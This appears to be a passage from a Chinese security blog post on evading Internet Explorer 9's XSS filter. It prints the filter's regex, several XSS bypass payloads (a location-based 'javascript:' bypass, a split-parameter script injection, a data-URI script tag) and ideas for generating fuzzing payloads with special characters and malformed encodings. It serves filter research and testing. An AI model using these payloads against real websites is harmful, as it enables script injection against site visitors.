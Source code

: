 以IE9 为例：

```
Regx1= \[\"\'\]\[ \]*(([^a-z0-9~_:\'\" ])|(in)).*?(location).*?= 
(老正则) 

Bypass : "+{valueOf:location, toString: [].join,0:'jav\x61script:alert\x280)',length:1}// location("http://xss.me/");   

```

又比如IE的复参绕过：

```
param1=<script>prompt(9);/*&param2=*/</script> 

```

最近绕过account.google.com的32位编码绕过，地址：[http://zone.wooyun.org/content/4448](http://zone.wooyun.org/content/4448)。

有意思的是：感觉上 日本人喜欢用unicode 的编码 上次见过有用 ᴮᴵᴳᴮᴵᴿᴰ （\u1d2e\u1d35\u1d33\u1d2e\u1d35\u1d3f\u1d30）重置BIGBIRD 用户密码的。

美国人喜欢用类似这种变形

```
<script/src="data:text/javascript,o={window:'/XSS/'};prompt(o['window']);"></script>

```

老毛子喜欢用各种特殊字符（以上个人见解）。    

### 0x03 进行Fuzz

* * *

简单的浏览观察，并不能高效的进行bypass.

转化为脚本

这里当我把python改完，突然意识到python的正则是pcre的！还好webkit的filter是基于pcre的（下次内容写webkit）。

微软向来用自己家东西，用C++写了个fuzz 程序进行fuzz测试。 

用法。IEfilter.txt 是IE的正则。Bypasstest.txt是绕过语句，result和console界面程序会保存输出结果。

![20130702203334_32890.png](http://drops.javaweb.org/uploads/images/08050bf5332a5753199d025a5009c64e4a6489a0.jpg)

downloadlink:[http://pan.baidu.com/share/link?shareid=1243023532&uk=1259968226](http://pan.baidu.com/share/link?shareid=1243023532&uk=1259968226)

Bypastest 内容可以自己生成。如果以前玩过spike的同学可以直接借用之前的payload和方法.

这里提供以下生成payload思路：

```
1.特殊字符 [0x09,0x0A-0x0D,0x20,0xA0] 
2.不同编码 xc2xb4xe2x80x99xe2x80 甚至畸形编码ф1й2у3ц4 
3.生僻函数 
4.边界变量 

```
